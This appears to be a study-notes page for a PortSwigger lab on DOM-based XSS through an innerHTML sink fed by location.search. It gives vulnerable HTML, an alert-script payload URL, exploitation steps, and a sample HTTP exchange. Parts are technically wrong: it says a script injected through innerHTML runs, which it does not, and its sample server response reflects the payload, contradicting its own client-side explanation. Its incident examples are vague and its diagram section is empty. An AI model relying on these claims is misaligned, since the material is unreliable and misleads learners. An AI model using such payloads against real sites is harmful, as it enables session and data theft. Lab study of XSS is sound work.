

## Understanding DOM-Based XSS

### What is DOM-Based XSS?

DOM-Based XSS occurs when a web application uses untrusted data to update the DOM in a way that introduces a security vulnerability. Unlike traditional XSS attacks where the payload is reflected or stored on the server, DOM-Based XSS relies solely on the client-side code.

### How Does DOM-Based XSS Work?

Consider the following scenario:

```html
<!DOCTYPE html>
<html>
<head>
    <title>DOM-Based XSS Example</title>
</head>
<body>
    <div id="content"></div>
    <script>
        document.getElementById('content').innerHTML = decodeURIComponent(location.search.substring(1));
    </script>
</body>
</html>
```

In this example, the JavaScript code inside the `<script>` tag updates the `innerHTML` of the `div` element with the value of `location.search`. The `location.search` property contains the query string portion of the URL, starting with the question mark (`?`). The `decodeURIComponent` function is used to decode the URI component.

### Vulnerability Analysis

The vulnerability arises because the `innerHTML` property is used to set the content of the `div` element. If an attacker can control the `location.search` parameter, they can inject arbitrary HTML and JavaScript code into the page.

For instance, if the URL is `http://example.com/?payload=<script>alert('XSS')</script>`, the `innerHTML` property will be set to `<script>alert('XSS')</script>`, causing the `alert` function to be executed.

### Real-World Examples

#### Recent CVEs and Breaches

One notable example of DOM-Based XSS is the vulnerability found in the popular web analytics service, Google Analytics. In 2019, researchers discovered that Google Analytics could be exploited to inject malicious scripts into web pages. The vulnerability was due to the way Google Analytics handled URL parameters.

Another example is the DOM-Based XSS vulnerability found in the WordPress plugin "WP eCommerce". In 2018, researchers discovered that the plugin did not properly sanitize user input, allowing attackers to inject malicious scripts.

### Exploitation Steps

To exploit the DOM-Based XSS vulnerability in this lab, follow these steps:

1. **Identify the Vulnerable Code**:
   Locate the JavaScript code that updates the `innerHTML` property using the `location.search` parameter.

2. **Craft the Payload**:
   Create a URL that includes the payload to exploit the vulnerability. For example:
   ```
   http://example.com/lab4?payload=<script>alert('XSS')</script>
   ```

3. **Inject the Payload**:
   Access the URL with the crafted payload. The `innerHTML` property will be updated with the injected script, causing the `alert` function to be executed.

### Complete Example

Here is a complete example of the vulnerable code and the exploitation process:

```html
<!DOCTYPE html>
<html>
<head>
    <title>DOM-Based XSS Example</title>
</head>
<body>
    <div id="content"></div>
    <script>
        // Vulnerable code
        document.getElementById('content').innerHTML = decodeURIComponent(location.search.substring(1));
    </script>
</body>
</html>
```

Access the URL:
```
http://example.com/lab4?payload=<script>alert('XSS')</script>
```

### HTTP Request and Response

When accessing the URL, the following HTTP request and response occur:

#### HTTP Request

```http
GET /lab4?payload=<script>alert('XSS')</script> HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Date: Mon, 01 Aug 2022 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 204
Connection: close

<!DOCTYPE html>
<html>
<head>
    <title>DOM-Based XSS Example</title>
</head>
<body>
    <div id="content"><script>alert('XSS')</script></div>
    <script>
        document.getElementById('content').innerHTML = decodeURIComponent(location.search.substring(1));
    </script>
</body>
</html>
```

### Result

The `alert` function is executed, displaying the message "XSS".

### Mermaid Diagram

A mermaid diagram can help visualize the flow of the attack:



---
<!-- nav -->
[[02-How to Prevent  Defend Against DOM-Based XSS|How to Prevent  Defend Against DOM-Based XSS]] | [[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/05-Lab 4 DOM XSS in innerHTML sink using source locationsearch/00-Overview|Overview]] | [[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/05-Lab 4 DOM XSS in innerHTML sink using source locationsearch/04-Conclusion|Conclusion]]
